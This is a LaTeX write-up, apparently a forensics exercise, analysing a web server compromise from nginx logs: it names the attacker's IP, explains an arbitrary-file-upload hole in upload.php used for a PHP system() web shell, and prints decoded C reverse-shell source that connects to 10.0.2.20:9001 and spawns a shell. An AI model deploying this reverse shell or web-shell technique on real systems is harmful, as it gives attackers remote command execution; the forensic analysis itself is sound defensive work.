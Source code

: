 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{enumerate}[label=(\alph*)]
    \item \textbf{Steps}

    Inspect \verb|/var/log/nginx/access.log|.

    \textbf{Result}

    The IP address of the attacker is \verb|10.0.2.29|.

    \item The primary vulnerablility of this HTTP service lies in \verb|upload.php|.
    It allows anybody to upload arbitrary files, including malicious PHP scripts.

    In this case, the attacker uploaded a PHP scripts that calls the \verb|system()|
    function. They are attempting to access the system's shell. \verb|$_GET['cmd']|
    allows them to potentially execute any command by providing
    \verb|?cmd=...| in the URL. What's more scary is that the uploaded files are
    owned by root, so any executable could be run as root.

    \textbf{References}
    \begin{itemize}
      \item \href{https://www.php.net/manual/en/function.system.php}{PHP: system - Manual}
    \end{itemize}

    \pagebreak
    \item \textbf{Result}
    \begin{enumerate}[label=(\arabic*)]
      \item From the access log, we can see that the attacker is trying to
      inject malicious C code and scripts into the system. If we decode the
      base64 string, we see some code that opens a network socket to \verb|10.0.2.20|
      and gain shell access.
      \begin{verbatim}
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.2.20");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"ash", NULL};
    execvp("ash", argv);


\end{verbatim}
\end{enumerate}
\end{enumerate}
\end{document}
